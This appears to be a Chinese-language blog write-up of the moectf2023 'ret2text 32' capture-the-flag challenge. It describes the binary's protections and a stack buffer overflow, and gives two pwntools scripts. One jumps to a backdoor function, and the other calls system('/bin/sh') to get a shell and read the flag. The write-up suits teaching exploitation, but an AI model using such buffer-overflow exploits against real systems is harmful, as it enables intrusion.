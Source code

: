 ```yaml
---
title: moectf2023 - ret2text 32
date: 2023/9/23 12:00:00
tags:
    - noob
excerpt: 通过利用缓冲区溢出攻击，成功调用`system()`函数执行`/bin/sh`获取flag。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了32位~~

## 解题思路

观察vuln函数里面输入一个数，并其后从输入中获取对应字节数 ~~%d个？随便打~~  
观察.text段，存在`b4ckdoor`函数，但是执行echo hi？？

显然，在第一步的exp中，只是跳转到该函数是没用的  
~~进一步探索，发现程序中system读取ebx寄存器中的内容  
而程序中存在`pop ebx; ret;`和`/bin/sh`~~  
先后压栈`system()`和`/bin/sh`即可  
再次发起exp

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x0804928c)) # Addr of ba4kdoor
sh.interactive()
```

成功打印出`hi!`！但是没有flag

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x080492a9) + p32(0x0804c02c)) # Addr of system & /bin/sh
sh.interactive()
```

> 做到这里的时候是0:09，网站打不开了，不会还有宵禁吧？明日再战
>
> 后记：真的有宵禁，12点后对外网关闭

再次运行，`cat flag`，得到flag

Done.
